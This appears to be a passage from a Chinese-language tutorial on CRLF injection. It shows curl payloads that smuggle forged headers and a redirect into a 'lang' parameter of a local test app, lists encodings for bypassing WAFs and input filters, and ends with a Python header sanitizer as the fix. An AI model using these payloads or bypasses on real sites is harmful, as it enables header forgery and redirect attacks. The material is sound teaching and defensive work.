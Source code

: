 #### 头部注入：
```html
curl -v "http://localhost:5002/set_language?lang=en%0d%0aX-Hacked:%20true%0d%0aX-Admin:%20yes"
```

#### 重定向攻击：
```powershell
curl -v "http://localhost:5002/set_language?lang=en%0d%0aLocation:%20http://www.bx33661.com"
```

### <font style="color:rgb(51, 51, 51);">绕过安全机制</font>
#### <font style="color:rgb(51, 51, 51);">绕过WAF</font>
```plain
# 使用不同编码方式
 %0d%0a        # 标准URL编码
 %0D%0A        # 大写编码
 %u000d%u000a  # Unicode编码
 \r\n          # 直接字符
 %E5%98%8A%E5%98%8D  # 双重编码
```

#### <font style="color:rgb(51, 51, 51);">绕过输入过滤</font>
```plain
# 使用UTF-8编码
%C0%8D%C0%8A  # 非标准UTF-8编码的CRLF
%E0%80%8D%E0%80%8A  # 过长UTF-8编码

# 使用混合编码
%0d%0a%20%20  # CRLF + 空格（某些解析器会忽略空格）
```







## <font style="color:rgb(51, 51, 51);">措施和修复</font>
这里记录一些理解

### <font style="color:rgb(51, 51, 51);">输入验证和过滤</font>
#### <font style="color:rgb(51, 51, 51);">严格的CRLF过滤</font>
```python
import re

def sanitize_header_value(value):
    """安全地处理HTTP头值"""
    if not isinstance(value, str):
        value = str(value)

    # 移除所有CRLF字符
    value = re.sub(r'[\r\n]', '', value)

    # 移除其他控制字符
    value = re.sub(r'[\x00-\x1f\x7f-\x9f]', '', value)

    # 限制长度
    value = value[:200]

    return value

# 使用示例
user_input = request.args.get('lang', '')
safe_value = sanitize_header_value(user_input)
response.headers['X-Language'] = safe_value
```